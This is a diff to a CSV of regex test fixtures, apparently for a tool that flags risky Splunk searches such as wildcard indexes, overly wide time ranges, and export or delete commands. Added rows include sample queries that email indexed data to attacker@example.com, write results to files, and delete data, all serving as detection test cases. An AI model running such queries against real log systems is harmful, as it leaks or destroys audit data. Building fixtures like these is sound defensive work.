

Before and after one commit to ALPERKESKE/mcp-watch, a CSV file: lookups/regex_fixtures.csv, drawn as a sheet; only a part is shown, gaps mark what is left out.

```diff
--- a/lookups/regex_fixtures.csv
+++ b/lookups/regex_fixtures.csv
@@ -7,3 +7,3 @@ wildcard_idx_005,wildcard_index,0,index=_audit,
 wildcard_idx_006,wildcard_index,0,| stats count by index,no index= clause
-wildcard_idx_007,wildcard_index,1,"where index=""*""",where with quoted star — currently flags
+wildcard_idx_007,wildcard_index,0,"where index=""*""",where-clause with quoted star — regex requires whitespace or end-of-token after =, so quoted-star is NOT flagged (deliberate)
 wildcard_idx_008,wildcard_index,0,sourcetype=index_log foo,no index= clause
@@ -36 +36,11 @@ wide_time_009,overly_wide_time,0,earliest=-5w,KNOWN_GAP: 5w is >30d but regex re
 wide_time_010,overly_wide_time,0,earliest=-9d,KNOWN_GAP: single-digit days >7 not caught. v1.1 TODO.
+export_or_delete_001,export_or_delete,1,index=foo | outputcsv leak.csv,outputcsv to file
+export_or_delete_002,export_or_delete,1,index=_audit | outputlookup users.csv,outputlookup write
+export_or_delete_003,export_or_delete,1,index=foo | collect index=summary,collect into summary index
+export_or_delete_004,export_or_delete,1,index=foo | sendemail to=attacker@example.com,sendemail
+export_or_delete_005,export_or_delete,1,index=foo | delete,delete command
+export_or_delete_006,export_or_delete,1,index=foo |outputcsv x,no whitespace after pipe
+export_or_delete_007,export_or_delete,1,index=foo | OUTPUTCSV x,uppercase — (?i)
+export_or_delete_008,export_or_delete,0,index=foo outputcsv_field=1,bareword in event text — no pipe
+export_or_delete_009,export_or_delete,0,index=foo | stats count,benign aggregation
+export_or_delete_010,export_or_delete,0,search delete_marker=true,'delete' as field value not command
```
Also changed, not shown: 7 other files.
